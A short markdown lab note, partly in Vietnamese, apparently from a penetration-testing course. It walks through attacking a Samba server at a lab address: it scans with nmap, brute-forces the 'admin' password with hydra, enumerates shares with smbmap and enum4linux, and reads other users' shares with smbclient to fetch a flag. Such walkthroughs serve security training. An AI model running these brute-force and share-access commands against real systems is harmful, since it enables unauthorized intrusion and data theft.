

# SAMBA

SAMBA là SMB nhưng của Linux thay vì Windows

### lab

`nmap -sV 192.34.128.3`

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
```

Brute-Force user/pass

`hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb` -> brute force pass cho user `admin`



Login and Enumeration

Use `SMBMap` tool

`smbmap -H 192.34.128.3 -u admin -p password1` - liệt kê các shares

```bash
Disk  Permissions
----  -----------
shawn  READ, WRITE
nancy  READ ONLY
admin  READ, WRITE
IPC$   NO ACCESS
```


Use `smbclient` tool to access Samba sources

`smbclient -L 192.34.128.3 -U admin` -> nhập pass 

`smbclient //192.34.128.3/shawn -U admin` -> nhập pass -> đọc share shawn dưới tài khoản admin

-> vào bảng điều khiển smb

`?`, `help`, `dir`
--- check files and folders in that share

`smbclient //192.34.128.3/nancy -U admin`

`cd dir\`

`get flag`

`exit`


Use `enum4linux` tool

`enum4linux -a 192.34.128.3` -> `-a`:  enum all 

`enum4linux -a -u admin -p password1 192.34.128.3`


